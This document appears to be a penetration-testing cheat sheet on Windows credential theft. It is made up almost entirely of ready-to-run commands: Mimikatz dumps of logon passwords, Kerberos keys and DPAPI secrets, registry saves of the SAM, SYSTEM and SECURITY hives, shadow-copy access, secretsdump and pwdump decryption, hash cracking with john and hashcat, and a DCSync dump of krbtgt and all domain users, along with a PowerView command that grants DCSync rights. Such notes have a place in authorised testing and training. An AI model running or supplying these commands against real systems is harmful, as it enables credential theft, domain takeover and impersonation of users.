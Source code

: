 # Credentials and Tickets

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

sekurlsa::logonpasswords 
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred
vault::list
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes

Enumerate copies

```
vssadmin list shadows
diskshadow list shadows all
```

Create a link to the copy

```
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\<shadow copy volume name>\
```

## SAM credentials dump

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks.

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## DPAPI hash dump

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

## DC KRBTGT hash dump

Use a DCSync attack to dump the hash used by the domain controller to sign Kerberos tickets. This allows an attacker to create custom tickets and impersonate other users or gain access to different services/hosts. To execute this attack we need to operate under a user with the `Replicating Directory Changes All` and `Replicating Directory Changes` privileges. By default Local and Domain Administrators own these privileges.

Find users with the required privileges with PowerView

```
Get-ObjectACL -DistinguishedName "dc=<domain>,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') }
```

If the current user lacks the required permissions run this command on the DC to add them.

```
Add-ObjectAcl -TargetDistinguishedName "dc=<domain>,dc=local" -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```

Dump using DCSync. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts can run DCSync and retrieve credentials.

```
lsadump::dcsync /user:krbtgt                    //DC credentials
lsadump::dcsync /domain:htb.local /all /csv     //dump all users
```

Dump credentials from LSASS

```
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```
